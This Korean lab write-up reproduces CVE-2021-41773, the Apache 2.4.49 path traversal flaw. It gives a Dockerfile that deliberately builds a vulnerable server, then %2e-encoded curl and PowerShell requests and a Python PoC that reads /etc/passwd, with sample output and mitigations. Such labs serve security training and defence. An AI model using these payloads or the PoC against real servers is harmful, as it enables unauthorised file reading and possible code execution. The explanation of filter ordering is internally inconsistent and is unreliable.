

# CVE-2021-41773 — Apache HTTP Server 경로 순회 취약점

> **Contributor:** [@yesol](https://github.com/yesol)
> **Risk Score:** 7.5 (인증 없는 원격 파일 읽기) / 조건 충족 시 9.8 (RCE)
> **Reproducibility:** 95%

---

## 취약점 요약

| 항목 | 내용 |
|---|---|
| CVE 번호 | CVE-2021-41773 |
| 영향 소프트웨어 | Apache HTTP Server 2.4.49 |
| 취약점 유형 | 경로 순회 (Path Traversal) → 임의 파일 읽기 / RCE |
| CVSS v3.1 점수 | 7.5 (파일 읽기) / 9.8 (RCE, mod_cgi 활성화 시) |
| 인증 필요 여부 | 불필요 (Unauthenticated) |
| 원격 악용 가능 여부 | 가능 |
| 공식 패치 버전 | Apache HTTP Server 2.4.51 |

Apache HTTP Server **2.4.49** 버전에서 URL 경로 정규화(normalization) 로직의 결함으로 인해, 공격자가 `%2e`(`.`의 URL 인코딩)를 활용한 경로 순회 공격을 통해 웹 루트(DocumentRoot) 외부의 임의 파일을 읽을 수 있다. `mod_cgi`가 활성화된 환경에서는 원격 코드 실행(RCE)까지 가능하다.

---

## 환경 구성

### 요구 사항

- Docker Desktop (v4.0 이상)
- Docker Compose v2
- 인터넷 연결 (이미지 다운로드)

### 디렉터리 구조

```
Apache/CVE-2021-41773/
├── docker-compose.yml
├── Dockerfile
└── README.md
```

### docker-compose.yml

```yaml
services:
  apache:
    build: .
    ports:
      - "8080:80"
    container_name: cve-2021-41773-apache
```

### Dockerfile

```dockerfile
FROM vulhub/httpd:2.4.49
LABEL maintainer="CVE-2021-41773 PoC"

RUN set -ex \
    && sed -i "s|#LoadModule cgid_module modules/mod_cgid.so|LoadModule cgid_module modules/mod_cgid.so|g" /usr/local/apache2/conf/httpd.conf \
    && sed -i "s|#LoadModule cgi_module modules/mod_cgi.so|LoadModule cgi_module modules/mod_cgi.so|g" /usr/local/apache2/conf/httpd.conf \
    && sed -i "s|#Include conf/extra/httpd-autoindex.conf|Include conf/extra/httpd-autoindex.conf|g" /usr/local/apache2/conf/httpd.conf \
    && cat /usr/local/apache2/conf/httpd.conf \
        | tr '\n' '\r' \
        | perl -pe 's|<Directory />.*?</Directory>|<Directory />\n    AllowOverride none\n    Require all granted\n</Directory>|isg' \
        | tr '\r' '\n' \
        | tee /tmp/httpd.conf \
    && mv /tmp/httpd.conf /usr/local/apache2/conf/httpd.conf
```

---

## 취약 조건

다음 조건이 **모두** 충족되어야 취약점이 발현된다.

1. Apache HTTP Server 버전이 정확히 **2.4.49**일 것
2. `Require all granted` 설정으로 웹 루트 외부 디렉터리 접근이 허용되어 있을 것
3. (RCE의 경우) `mod_cgi` 또는 `mod_cgid`가 활성화되어 있을 것

---

## 재현 절차

### 1단계: 환경 실행

```bash
git clone https://github.com/gunh0/kr-vulhub.git
cd kr-vulhub/Apache/CVE-2021-41773
docker compose up -d
```

컨테이너가 정상 실행됐는지 확인:

```bash
docker ps
```

`STATUS`가 `Up`이고 `0.0.0.0:8080->80/tcp`가 보이면 정상이다.

### 2단계: 서버 정상 동작 확인

브라우저에서 `http://localhost:8080` 접속 시 **"It works!"** 페이지가 출력되면 Apache가 정상 동작 중인 것이다.


### 3단계: 경로 순회 공격 (파일 읽기)

아래 URL로 `/etc/passwd` 파일을 읽는다. `.`을 `%2e`로 URL 인코딩하여 Apache의 경로 정규화를 우회한다.

**Linux / macOS:**
```bash
curl http://localhost:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

**Windows PowerShell:**
```powershell
$bytes = Invoke-WebRequest -Uri "http://localhost:8080/icons/.%2e/.%2e/.%2e/.%2e/etc/passwd" -UseBasicParsing
[System.Text.Encoding]::UTF8.GetString($bytes.Content)
```

### 4단계: 실행 결과 확인



---

## PoC 코드

아래는 취약점을 재현하는 Python PoC 스크립트다.

```python
#!/usr/bin/env python3
"""
CVE-2021-41773 PoC — Apache HTTP Server 2.4.49 경로 순회
대상: Apache 2.4.49 (mod_cgi 활성화 환경에서는 RCE도 가능)
"""

import requests
import sys

TARGET = "http://localhost:8080"

def path_traversal(target, filepath="/etc/passwd"):
    """경로 순회를 통한 임의 파일 읽기"""
    # /icons/ 경로를 통한 우회: %2e = "." (URL 인코딩)
    url = f"{target}/icons/.%2e/.%2e/.%2e/.%2e{filepath}"
    print(f"[*] 대상: {url}")
    try:
        resp = requests.get(url, timeout=5)
        if resp.status_code == 200:
            print(f"[+] 파일 읽기 성공! (HTTP {resp.status_code})")
            print("-" * 50)
            print(resp.text)
        else:
            print(f"[-] 실패 (HTTP {resp.status_code})")
    except requests.exceptions.ConnectionError:
        print("[-] 서버에 연결할 수 없습니다. Docker 컨테이너가 실행 중인지 확인하세요.")

if __name__ == "__main__":
    target = sys.argv[1] if len(sys.argv) > 1 else TARGET
    path_traversal(target)
```

실행 방법:

```bash
python3 poc.py
# 또는 대상 지정
python3 poc.py http://localhost:8080
```

---

## 실행 결과

아래는 취약점 재현 성공 결과다. 인증 없이 서버의 `/etc/passwd` 파일 전체가 노출되었다.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

---

## 취약점 원리 상세

### URL 인코딩 우회

Apache 2.4.49는 URL 경로를 정규화할 때 `%2e`를 `.`으로 디코딩하기 **이전에** 경로 순회 필터를 적용했다. 그 결과 아래와 같은 우회가 가능했다.

| 입력 URL | Apache 처리 후 실제 경로 |
|---|---|
| `/icons/.%2e/.%2e/.%2e/.%2e/etc/passwd` | `/etc/passwd` |
| `/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd` | `/etc/passwd` (CGI 실행 시도) |

### 정상 버전과의 비교

- **2.4.48 이하**: `%2e` 디코딩 전에 경로 순회 필터 적용 → 공격 불가
- **2.4.49**: 필터 적용 순서 역전 → 공격 가능 (**취약**)
- **2.4.50**: 부분 패치 (우회 가능, CVE-2021-42013으로 이어짐)
- **2.4.51**: 완전 패치 → 공격 불가

---

## 대응 방안

### 즉시 조치 (패치)

Apache HTTP Server를 **2.4.51 이상**으로 업그레이드한다.

```bash
# Ubuntu / Debian
sudo apt update && sudo apt upgrade apache2

# CentOS / RHEL
sudo yum update httpd
```

### 설정으로 접근 제한

`httpd.conf` 또는 `.htaccess`에서 웹 루트 외부 디렉터리 접근을 명시적으로 차단한다.

```apache
<Directory />
    Require all denied
</Directory>
```

### mod_cgi 비활성화 (RCE 방지)

불필요한 경우 `mod_cgi`와 `mod_cgid`를 비활성화한다.

```bash
a2dismod cgi cgid
```

### WAF 규칙 적용

웹 방화벽(WAF)에서 URL에 포함된 `%2e`, `%2f` 패턴을 탐지하고 차단하는 규칙을 추가한다.

---

## 참고 자료

- [NVD - CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)
- [Apache HTTP Server 2.4.50 Changelog](https://httpd.apache.org/security/vulnerabilities_24.html)
- [Vulhub - httpd CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)
